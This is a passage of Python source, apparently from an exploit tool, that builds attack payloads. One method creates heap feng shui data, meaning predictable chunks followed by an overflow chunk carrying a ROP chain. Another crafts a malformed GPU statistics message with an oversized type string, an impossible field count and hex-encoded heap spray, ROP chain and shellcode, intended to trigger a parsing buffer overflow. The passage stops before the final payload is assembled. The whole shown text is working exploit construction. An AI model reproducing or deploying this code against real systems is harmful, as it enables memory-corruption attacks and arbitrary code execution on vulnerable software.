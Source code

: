        # Create predictable heap chunks
        for i in range(50):
            chunk_size = 64  # Standard chunk size
            chunk_data = b"CHUNK" + struct.pack("<I", i) + b"A" * (chunk_size - 9)
            heap_chunks.append(chunk_data)
            
        # Add target chunk with overflow data
        overflow_chunk = b"TARGET" + b"B" * 1000 + self.create_rop_chain()
        heap_chunks.append(overflow_chunk)
        
        return b"".join(heap_chunks)
    
    def create_advanced_gpu_payload(self):
        """
        Create advanced GPU payload combining multiple attack vectors
        """
        # GPU statistics header
        gpu_header = "GPU_ADVANCED_STATS"
        
        # Malformed GPU type to trigger parsing vulnerability
        gpu_type = "NVIDIA_EXPLOIT_" + "A" * 200
        
        # Excessive field count to trigger buffer overflow
        field_count = "999999"  # Impossibly high field count
        
        # Overflow fields with heap spray
        overflow_fields = []
        
        # Add heap feng shui data
        heap_spray = self.create_heap_feng_shui_payload()
        overflow_fields.append(heap_spray.hex())
        
        # Add ROP chain
        rop_chain = self.create_rop_chain()
        overflow_fields.append(rop_chain.hex())
        
        # Add shellcode
        shellcode = self.create_shellcode()
        overflow_fields.append(shellcode.hex())
        
        # Construct final payload
        payload_parts = [
            gpu_header,
            field_count,
            gpu_type
        ] + overflow_fields
        